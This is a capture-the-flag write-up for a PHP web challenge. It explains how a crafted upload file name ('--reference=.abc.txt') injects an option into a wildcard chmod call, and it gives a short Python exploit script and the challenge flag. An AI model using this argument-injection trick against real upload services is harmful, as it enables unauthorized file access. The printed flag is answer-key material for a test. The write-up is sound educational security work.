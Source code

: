 https://ctftime.org/event/2467/

# submission (Web)
php app

## Solution
The bug is on
```php
$shell = shell_exec('chmod 000 *');
```
If we create a file with a name like `--help` chmod will interpret as a flag instead of a file.
So we use `--reference=somefile` that replaces the 000 mode with the perms from `somefile`.

The second interesting part is how we get a file that has read perms. We can't create files with `/` so no path traversal. The solution is to create a dotfile, glob won't select those. So the perms remain the same.

```python
#!/usr/bin/env python3
import requests

REMOTE = "http://0.0.0.0:8080/"

res = requests.post(REMOTE, files={"file": (".abc.txt", "ble")})
res = requests.post(REMOTE, files={"file": ("--reference=.abc.txt", "ble")})
res = requests.get(REMOTE + "/uploads/flag.txt")
print(res.text)
```

## Flag
`x3c{4lw4y5_chm0d_y0ur3_f1l35_4_53cur17y}`

shafouz 2025/01/26
